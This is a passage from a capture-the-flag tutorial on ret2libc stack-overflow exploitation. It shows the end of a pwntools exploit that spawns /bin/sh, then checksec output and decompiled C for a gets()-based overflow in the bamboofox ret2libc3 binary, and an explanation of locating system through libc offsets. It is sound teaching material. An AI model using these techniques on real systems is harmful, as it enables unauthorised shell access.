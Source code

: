 ```python
p.sendline("/bin/sh")
p.interactive()
```


Note that I am writing the /bin/sh string to buf2 in the bss section of the program and passing its address as a parameter to system. This is so easy to get the shell.


#### Example 3


Here is an example of ret2libc3 in bamboofox.


Click to download: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)


On the basis of Example 2, the address of the system function is removed again. At this point, we need to find both the address of the system function and the address of the /bin/sh string. First, check the security


```shell
$ checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


As you can see, the source program still has stack unexecutable protection turned on. Looking at the source code, I found that the bug in the program is still a stack overflow.


```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```


So how do we get the address of the system function? Here mainly use two knowledge points


- The system function belongs to libc, and the relative offset between functions in the libc.so dynamic link library is fixed.
- Even if the program has ASLR protection, it is only random for the middle bits of the address, and the lowest 12 bits will not change. And libc is collected on github, as follows
- https://github.com/niklasb/libc-database
